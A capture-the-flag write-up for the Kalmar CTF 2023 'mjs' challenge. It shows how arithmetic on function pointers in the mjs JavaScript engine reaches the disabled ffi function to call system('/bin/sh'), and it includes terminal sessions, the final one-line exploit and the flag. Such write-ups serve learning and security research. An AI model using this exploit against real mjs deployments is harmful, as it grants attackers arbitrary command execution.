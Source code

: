 ```yaml
---
title: "[Pwn] mjs [Kalmar CTF 2023]"
date: 2023-03-05 14:39:00
---
```


# 0x0 Introduction

Description: TDB

Files: TBD


# 0x1 Investigating Repository

looking at mjs github [repo](https://github.com/cesanta/mjs)

I found three vary suspicious function. `mkstr` and `ffi`. 

`mkstr` allow you make string in **any** memory address.

`ffi` allow you to import C function into js environment. This means we can import `system` into js environment and call `system('/bin/sh')` to getting a shell.

![2023-03-05_171001.png](./2023-03-05_171001.png)

However, challenge disabled those function. So, if you are trying to call those function, you will find this function is not defined. 

![2023-03-05_171552.png](./2023-03-05_171552.png)


When I'm playing around with this javascript engine. I found following interesting statements. 

We can operate function pointer using mathematical operation (like C). 


```bash
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
17:19:25 $ ./mjsvuln -e "print(print)"
<foreign_ptr@405920>
undefined
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:25:52 $ ./mjsvuln -e "(0x405920)(1)"
  at <stdin>:1
MJS error: calling non-callable
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:26:04 $ ./mjsvuln -e "(print+9-9)(print)"
<foreign_ptr@405920>
undefined
```

*The binary is compiled with glibc2.34. I'm using Ubuntu20.04, so I need to recompile the binary again. So, some function offset might is different from the original binary.*

I calculated the offset between `print` and `ffi`. And try to call `ffi` again. This time, it succeed with an unknown function pointer.

![2023-03-05_183906.png](./2023-03-05_183906.png)

```bash
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:33 $ python -c "print(0x0040cbb0-0x00405920)"
29328
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:38 $ ./mjsvuln -e 'let f= (print+29328)("int system(char *)");'
<???-562949926229504>
```

Then I can just called `/bin/sh` and got the shell

```
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:40 $ ./mjsvuln -e 'let f= (print+29328)("int system(char *)");f("/bin/sh")'
$ ls
Dockerfile  README.txt  diff.patch  exploit.js  mjs  mjs_src  mjsvuln  remote.py  source  ynetd
$
```

# 0x2 final exploit

offset is little different in the original binary

exploit.js
```
let f= (print+27312)("int system(char *)");f("/bin/sh")
```

# 0x3 flag

`kalmar{mjs_brok3ey_565591da7d942fef817c}`